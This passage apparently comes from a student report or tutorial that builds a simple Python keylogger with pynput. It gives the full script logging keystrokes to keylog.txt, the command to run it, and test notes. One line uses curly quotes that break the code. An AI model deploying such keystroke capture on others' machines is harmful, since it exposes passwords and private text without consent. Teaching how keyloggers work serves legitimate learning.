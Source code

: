 Step 4: In this final step, we will create a Listener instance, define the on_press() method, and join it with the main program thread.
with Listener(on_press=write_to_file) as l:
    l.join()

After completing all these steps, the final program should look like this, and you can execute this script.
from pynput.keyboard import Listener

def write_to_file(key):
    letter = str(key)
    letter = letter.replace("'", "")
    if letter == 'Key.space':
        letter = ' '
    if letter == 'Key.shift_r':
        letter = “”
    if letter == "Key.ctrl_l":
        letter = ""
    if letter == "Key.enter":
        letter = "\n"
    with open("keylog.txt", 'a') as f:
        f.write(letter)
# Collecting events until stopped
with Listener(on_press=write_to_file) as l:
    l.join()
Step 5: The final code will be saved as a python file with extension .py on the directory you wish to run the keylogger from as depicted below for example:
 
Figure 2.1
Step 6: Open a terminal and run the keylogger.py file with the command below:
    $ python3 keylogger.py
 
Figure 2.2
Step 7: With the file running, you can check the output of our keylogger program, type some random keys and open your log file already generated on the desktop.
 
Figure 2.3
 
Figure 2.4









Chapter Three

Testings and Modifications
The python file was successfully activated on the command prompt and the log file generated as expected.
The final output depicted in figure 2.4 is the readable log format after several code cleaning associated with some special keystroke the keyboard that also listened to by the program,
The simple text phrase depicted below in figure 3.1 that was typed with some special keys and the terminal cleared by pressing the backspace key would have been very difficult to make sense of it even with the keylogger running without the proper sanitization of the codes:
 